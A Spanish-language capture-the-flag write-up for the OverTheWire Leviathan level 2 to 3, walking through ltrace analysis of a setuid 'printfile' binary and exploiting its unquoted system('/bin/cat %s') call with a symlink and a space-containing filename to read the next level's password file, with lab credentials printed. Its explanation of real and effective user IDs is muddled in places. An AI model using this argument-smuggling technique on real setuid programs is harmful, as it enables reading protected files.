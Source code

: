 ## Leviathan Level 2 → Level 3

## Level Goal

There is no information for this level, intentionally.

## Write Up Iker 

Fácil. Tenemos que conectarnos por **SSH** a la dirección **leviathan.labs.overthewire.org** en el puerto **2223** con los siguientes datos:

```bash
  - User: leviathan2
  - Pass: ougahZi8Ta
```

Escribimos el siguiente comando en la consola:
  
```bash 
$ ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```

Accedemos sin problemas y vemos que hay un fichero llamado **printfile**

```bash
leviathan2@leviathan:~$ ls -l
total 8
-r-sr-x--- 1 leviathan3 leviathan2 7506 Jun 15 11:38 printfile
```

Ejecutamos el programa y nos indica que debemos especificarle el nombre de un fichero para imprimirlo.

```bash
leviathan2@leviathan:~$ ls -l
total 8
-r-sr-x--- 1 leviathan3 leviathan2 7506 Jun 15 11:38 printfile
leviathan2@leviathan:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
leviathan2@leviathan:~$ ./printfile asdf.txt
You cant have that file...
```

Vamos a probar a ver si nos deja imprimir por la password del directorio que hemos localizado antes.

```bash
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

¡Vaya! Nos nos deja :( . Tendremos que obligarle a que imprima un fichero de verdad.

El mejor lugar para crear un fichero temporal es en la carpeta **tmp** del sistema por lo que vamos a crear uno allí.

```bash
leviathan2@leviathan:~$ mkdir /tmp/iker & touch /tmp/iker/asdf.txt
[1] 318
[1]+  Done                    mkdir /tmp/iker
leviathan2@leviathan:~$ ls -l /tmp/iker/      
total 0
-rw-rw-r-- 1 leviathan2 leviathan2 0 Sep  6 15:24 asdf.txt
```

Ahora que ya hemos creado nuestro fichero vamos a intentar imprimirlo.

```bash
leviathan2@leviathan:~$ ./printfile /tmp/iker/asdf.txt
leviathan2@leviathan:~$ 
```

Lo ejecutamos pero no nos da ningun error. Vamos a volver a ejecutarlo pero esta vez con el comando **ltrace** para ver que es lo que hace.

```bash
leviathan2@leviathan:~$ltrace ./printfile /tmp/iker/asdf.txt
leviathan2@leviathan:~$ 
```

```bash
leviathan2@leviathan:~$ ltrace ./printfile /tmp/iker/asdf.txt
__libc_start_main(0x804852d, 2, 0xffffd7d4, 0x8048600 <unfinished ...>
access("/tmp/iker/asdf.txt", 4)                                                                                               = 0
snprintf("/bin/cat /tmp/iker/asdf.txt", 511, "/bin/cat %s", "/tmp/iker/asdf.txt")                                             = 27
system("/bin/cat /tmp/iker/asdf.txt" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                        = 0
+++ exited (status 0) +++
```

Tal y como pensaba, el programa realiza un **cat** sobre un parámetro que le pasemos desde el fichero **adsf.txt**

Vamos a agregar el directorio que hemos comentado antes **/etc/leviathan_pass/leviathan3** al fichero **asdf.txt** de tal forma que el programa realice la lectura del fichero.

```bash
snprintf("/bin/cat /tmp/iker/asdf.txt", 511, "/bin/cat %s", "/tmp/iker/asdf.txt")   
```
**%s** será el contenido del fichero **/tmp/iker/asdf.txt**  que le pondremos la ruta **/etc/leviathan_pass/leviathan3** .

```bash
leviathan2@leviathan:~$ ./printfile /tmp/iker/asdf.txt
/etc/leviathan_pass/leviathan3
```
Probamos el comando anterior pero solo muestra el contenido del fichero de asdf.txt, es decir, la ruta que hemos agregado manualmente. Algo se nos escapa. 

Vamos a analizar el código de nuevo.

Vemos algo curioso a la hora de listar el directorio donde está el programa.

```bash
leviathan2@leviathan:~$ ls -l
total 8
-r-sr-x--- 1 leviathan3 leviathan2 7506 Jun 15 11:38 printfile
```

Observamos que el fichero **printfile** tambien tiene como usuario global a **leviathan3** y usuario real a **leviathan3**.

```html
Con procesos de Linux ejecutandose bajo un "user-ID". Esto les da acceso a todos los recursos (ficheros, etc...) a los que este usuario tendría acceso. Hay dos user-ID's. El user-ID real y el user-ID efectivo. El user-ID efectivo es el que determina el acceso a los ficheros. 
```

Es decir, que **leviathan3** es el **User-ID efectivo**, el que determina el acceso a los ficheros y **leviathan2** es el **User-ID Real**.

Después de investigar un poco el código resultante de **ltrace** e internet, vemos que la llamada **access** se hace con el **User-Id Efectivo** en este caso y que podemos hacer un **bypass** 

Después de pelear con los enlaces symbólicos consigo haver con la pass. 

```bash
leviathan2@leviathan:/tmp/iker$ ls -l
total 4
lrwxrwxrwx 1 leviathan2 leviathan2 30 Sep  6 15:58 asdf -> /etc/leviathan_pass/leviathan3
-rw-rw-r-- 1 leviathan2 leviathan2 33 Sep  6 15:37 asdf.txt
leviathan2@leviathan:/tmp/iker$ touch asdf\ asdf.txt
leviathan2@leviathan:/tmp/iker$ ls -l
total 4
lrwxrwxrwx 1 leviathan2 leviathan2 30 Sep  6 15:58 asdf -> /etc/leviathan_pass/leviathan3
-rw-rw-r-- 1 leviathan2 leviathan2  0 Sep  6 16:03 asdf asdf.txt
leviathan2@leviathan:/tmp/iker$ ~/printfile "asdf asdf.txt"
Ahdiemoo1j
```

:v: :sunglasses: :v:

**FLAG** = {Ahdiemoo1j} 
